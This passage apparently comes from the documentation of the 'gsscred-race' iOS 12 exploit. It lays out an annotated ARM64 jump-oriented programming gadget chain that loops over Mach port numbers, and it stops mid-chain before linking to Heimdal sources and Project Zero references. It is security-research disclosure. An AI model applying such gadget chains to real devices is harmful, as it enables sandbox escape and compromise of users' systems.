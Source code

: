 	LDP_X8_X2_X19__BLR_X8 (CoreUtils):
			ldp x8, x2, [x19]
			blr x8
		x8 = REGION_X19[0] = LDP_X3_X2_X2__BR_X3
		x2 = REGION_X19[8] = JOP_STACK_INCREMENT_PORT_AND_BRANCH
		pc = LDP_X3_X2_X2__BR_X3

	;; This is our dispatch gadget. It reads gadgets to execute from a "linked
	;; list" JOP stack.

	LDP_X3_X2_X2__BR_X3 (CoreFoundation, Heimdal):
			ldp x3, x2, [x2]
			br x3
		x3 = ADD_X1_X21_X20__BLR_X8
		pc = ADD_X1_X21_X20__BLR_X8

	;; The first JOP stack we execute is JOP_STACK_INCREMENT_PORT_AND_BRANCH. We
	;; increment the remote Mach port via a register containing the combined remote
	;; and local port numbers, test if the remote Mach port is above the limit, and
	;; branch to either send the message and loop again or finish running the
	;; exploit payload.

	ADD_X1_X21_X20__BLR_X8 (libxml2):
			add x1, x21, x20
			blr x8
		x1 = CURRENT_REMOTE_AND_LOCAL_PORT + PORT_INCREMENT = NEXT_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X20_X1_BLR_X8

	MOV_X20_X1_BLR_X8 (libswiftCore, MediaPlayer):
			mov x20, x1
			blr x8
		x20 = NEXT_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = STR_X1_X19_80__BLR_X8

	STR_X1_X19_80__BLR_X8 (libswiftCore):
			str x1, [x19, #0x80]
			blr x8
		REGION_X19[80] = REGION_MACH_MESSAGE[8] = NEXT_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X0_X26__BLR_X8

	MOV_X0_X26__BLR_X8 (common):
			mov x0, x26
			blr x8
		x0 = MAX_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = SUB_X1_X1_X0__BLR_X8

	SUB_X1_X1_X0__BLR_X8 (libswiftCore):
			sub x1, x1, x0
			blr x8
		x1 = NEXT_REMOTE_AND_LOCAL_PORT - MAX_REMOTE_AND_LOCAL_PORT
		pc = LDP_X3_X2_X2__BR_X3
		pc = MOV_X13_X1__BR_X8


[iOS 12]: https://support.apple.com/en-us/HT209106
[gsscred-race]: https://github.com/bazad/gsscred-race
[Heimdal]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/
[source]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/lib/heimcred/server.m.auto.html
[triple_fetch]: https://bugs.chromium.org/p/project-zero/issues/detail?id=1247
[Modern Objective-C Exploitation Techniques]: http://phrack.org/issues/69/9.html